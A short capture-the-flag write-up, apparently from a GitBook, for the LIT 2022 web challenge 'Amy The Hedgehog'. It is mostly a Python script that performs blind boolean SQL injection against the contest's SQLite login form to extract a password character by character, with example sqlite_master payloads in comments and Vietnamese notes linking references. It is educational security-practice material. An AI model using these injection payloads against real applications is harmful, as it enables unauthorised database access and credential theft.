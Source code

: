 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# LIT 2022

## web/Amy The Hedgehog

![](<../.gitbook/assets/image (43).png>)

```
import requests, string

url = "http://litctf.live:31770/"
s = requests.session()
passwordRetrieve = ""
# ' or (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type = 'table' AND tbl_name = 'names') = hex('some_char')--
# find column from table: ' or (SELECT hex(substr(sql,{index},1)) FROM sqlite_master WHERE type = 'table' AND tbl_name = 'names') = hex('{char}')-- 
alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c"
def solve():
    global passwordRetrieve
    index = 1
    len_of_password = 14 - index
    for i in range(len_of_password):
        for char in alpha:
          passwordfield = f"' or (SELECT hex(substr(name,{index},1)) FROM names) = hex('{char}')--"
          postParam = {'name': passwordfield}
          response = s.post(url, data=postParam).text
          if "You got it"  in response:
              passwordRetrieve += char
              index += 1
              print("Nai here yr pass: ",passwordRetrieve, "  len:",i)
              break
          print(char)
solve()
```

* Xác định SQLite -> sqlite\_master -> tbl\_name -> column -> name
* [doc1](https://freetuts.net/lenh-select-trong-sqlite-1731.html)
* [doc2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---count-number-of-tables)

![](<../.gitbook/assets/image (30).png>)
